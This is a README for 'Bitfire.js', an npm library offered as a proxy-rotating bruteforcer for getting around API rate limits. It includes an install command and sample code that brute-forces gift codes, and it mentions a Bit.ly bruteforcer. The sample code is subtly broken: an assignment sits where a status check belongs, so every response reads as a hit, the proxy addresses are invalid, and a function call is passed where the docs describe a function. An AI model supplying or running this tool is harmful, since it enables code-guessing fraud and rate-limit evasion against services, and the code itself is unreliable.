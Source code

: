 # Bitfire.js
Simple Proxy Bruteforcer for Node.js allowing you to perform any api attack (by specifying a function) using proxy lists to bypass any ratelimits using the requests module.

It is my first library, so I don't recommend actually using this in production.

Currently only GET requests can be bruteforced but this can be changed by modifying a line of code.

![alt text](https://i.imgur.com/5orefhi.png "yes")

*Bit.ly Bruteforcer Example*

# Installation
```
npm install bitfire
```

# Usage
```js
var bitfire = require("bitfire");
function generateCode(){
var nf = "http://example.org/api/giftcodes/check/" + getRandomCode();
return nf;
}
var proxyArray = ["123.293.192:8000","942.323.234.122:8080"];
bitfire.proxyBrute(generateCode(),proxyArray,10,function(error,response,body,code){
if(response.statusCode = 200){
console.log("Found Giftcode: " + code);
process.exit(0);
}
})
```

**bitfire.proxyBrute(function to generate api url to check, array of proxys, interval between requests, callback)**
